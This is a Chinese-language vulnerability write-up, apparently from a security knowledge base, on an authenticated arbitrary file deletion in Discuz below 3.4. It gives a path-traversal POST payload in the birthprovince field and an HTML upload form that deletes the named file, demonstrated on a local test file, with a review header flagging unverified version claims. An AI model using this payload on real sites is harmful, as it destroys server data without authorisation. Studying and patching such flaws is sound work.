


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;3.4 claimed; tested3.2TCBIG5; member login/formhash; stored profile then image upload

- **结论使用边界（1）**：Same primitive as97/104; this independently documents3.2BIG5 and dedicated1.txt test。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：&lt;3.4 conflicts with affected unpatched3.4 in97/104; version cutoff verification needed。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：Form closing tag misspelled &lt;/from&gt;; cross-origin session not explained。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：Precise original references; no source analysis。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Discuz_＜3.4_birthprovince_前台任意文件删除

## Affected Version

Discuz < 3.4 版本

需要会员身份登陆站点。

下载地址： 链接: https://pan.baidu.com/s/1hsOoSte 密码: nvjj

## PoC

测试：

1. 为了不破坏原有程序，在根目录下新建 1.txt 作为演示。

2. 登陆前台，访问 http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base

先发起一个POST请求 

    birthprovince=../../../1.txt&profilesubmit=1&formhash=18a19dce
    // formhash 需要右键查看源代码得到

成功后，个人信息已经被修改成如下:

3. 最后，本地提交POST表单删除文件 1.txt

表单内容：

    <form action="http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="18a19dce"/>

    <input type="text" name="profilesubmit" value="1"/>

    <input type="submit" value="Submit" />
    </from>

随便上传一个图片提交会导致删除 birthprovince 设置的文件名称，在这里是 1.txt。

## References

1. http://www.freebuf.com/vuls/149904.html
2. http://www.freebuf.com/articles/system/149810.html

---

> 来源：白阁文库 BaizeSec/bylibrary
